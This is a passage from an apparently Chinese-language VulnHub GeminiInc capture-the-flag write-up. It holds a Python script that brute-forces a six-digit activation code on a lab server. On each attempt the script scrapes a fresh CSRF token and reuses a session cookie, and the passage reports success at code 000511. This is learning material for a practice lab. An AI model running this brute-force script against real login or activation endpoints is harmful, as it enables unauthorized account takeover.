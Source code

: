 至于六位数的邀请码，这个可能需要写一个脚本来爆破，由于六位确实有点长，出题人也只给了一个三位数值的六位数邀请码，方便爆破

```python
import requests
import re
import threading
url = "http://192.168.85.140/activate.php"

def get_code():
	for i in range(1000000):
		l = len(str(i))
		if l<6:	
			yield '0'*(6-l)+str(i)
		else:
			yield str(i)

def get_token():
	cookies = dict(PHPSESSID="6bc1s35thd0glrft571gfud8c0")
	r = requests.get(url, cookies=cookies)

	token = re.search(r"[0-9a-f]{40}", r.text)
	if token is not None:
		return token.group(0)
	else:
		raise ValueError("can not find token")

def submit(code):
	data = dict(userid="17",activation_code=code,token=get_token())
	cookies = dict(PHPSESSID="6bc1s35thd0glrft571gfud8c0")
	r = requests.post(url , data=data, proxies = {
	"http": "http://127.0.0.1:8080",
	"https": "http://127.0.0.1:8080"}, cookies=cookies)
	

	if r.status_code == 403:
		print('[{}] => {}'.format(r.status_code, code))
		# print(r.headers)
	else:
		print('[{}] => {}'.format(r.status_code, code))
		exit()

for code in get_code():
	submit(code)
```

在`000511`的时候就可以确认成功登录

![](vulnhub-GeminiInc\18.png)

